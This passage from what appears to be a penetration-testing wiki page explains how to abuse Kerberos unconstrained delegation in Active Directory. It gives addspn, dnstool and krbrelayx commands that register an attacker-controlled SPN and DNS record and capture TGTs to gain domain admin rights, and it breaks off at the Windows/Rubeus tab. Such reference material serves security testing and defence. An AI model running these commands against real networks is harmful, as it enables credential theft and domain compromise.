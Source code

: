 ## Practice

Some of the following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).

### Unconstrained Delegations

If a computer, with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it \(or [force it](../forced-authentications/)\) using Kerberos. The attacker service will receive a TGS containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with the [PrinterBug](../forced-authentications/#ms-rprn-abuse-a-k-a-printer-bug) or [PrivExchange](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

{% tabs %}
{% tab title="From the attacker machine \(UNIX-like\)" %}
In order to abuse the unconstrained delegations privileges of a computer account, an attacker must add his machine to the SPNs of the compromised account and add a DNS entry for it.

This allows targets \(like Domain Controllers and Exchange servers\) to authenticate back to the attacker machine.

This can be done with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) \(Python\).

```bash
# Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\MachineAccont$' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\MachineAccont$' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py -aesKey 'MachineAccount_AES_key'
```

Once the krbrelayx listener is ready, a [forced authentication attack](../forced-authentications/) \(e.g. [PrinterBug](../forced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. The listener will then receive an authentication, hence a TGS, containing a TGT.
{% endtab %}

{% tab title="From the compromised computer \(Windows\)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used \(on the compromised host\) as a listener to wait for a user to authenticate, the TGS to show up and to extract the TGT it contains.
